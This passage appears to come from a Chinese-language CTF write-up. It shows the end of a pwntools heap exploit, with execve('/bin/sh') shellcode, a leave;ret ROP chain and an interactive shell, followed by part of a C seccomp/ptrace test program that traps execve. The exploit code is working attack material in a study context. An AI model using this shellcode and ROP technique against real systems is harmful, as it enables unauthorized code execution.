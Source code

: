 ```python
    mov rax, 59
    syscall                 /* execve("/bin/sh",0,0) */
    
    jmp child_process
''')
edit(4,p64(leave_ret) + p64(rdx_rbx) + p64(0x0) + p64(heap_base + 0x1710 - 0x28) + mmap + shellcode)

debug(io)
io.sendlineafter(b'Exit',b'5')

io.interactive()
```

# test.c
再下面是ptrace的测试程序，在我的环境下，`gcc test.c -lseccomp`才行
得加个`-lseccomp`参数
```
#include <errno.h>
#include <linux/filter.h>
#include <linux/seccomp.h>
#include <seccomp.h>
#include <stdio.h>
#include <stdlib.h>
#include <sys/prctl.h>
#include <sys/ptrace.h>
#include <sys/syscall.h>
#include <sys/types.h>
#include <sys/wait.h>
#include <unistd.h>

// 如果未定义 ORIG_RAX，手动定义它
#ifndef ORIG_RAX
#ifdef __x86_64__
#define ORIG_RAX 15 // 对应于 x86_64 的系统调用号
#elif defined(__i386__)
#define ORIG_RAX 11 // 对应于 x86 的系统调用号
#else
#error "Unsupported architecture"
#endif
#endif

// 设置 seccomp 沙盒，阻止 execve 系统调用，并触发 PTRACE
void sandbox()
{
    scmp_filter_ctx ctx;

    // 创建 seccomp 过滤器，默认动作是杀死进程
    ctx = seccomp_init(SCMP_ACT_ALLOW);
    if (!ctx)
    {
        perror("seccomp_init failed");
        exit(EXIT_FAILURE);
    }

    // 阻止 execve 系统调用，并设置为返回 SIGTRACE
    if (seccomp_rule_add(ctx, SCMP_ACT_TRACE(0), SCMP_SYS(execve), 0) < 0)
    {
        perror("seccomp_rule_add execve failed");
        exit(EXIT_FAILURE);
    }

```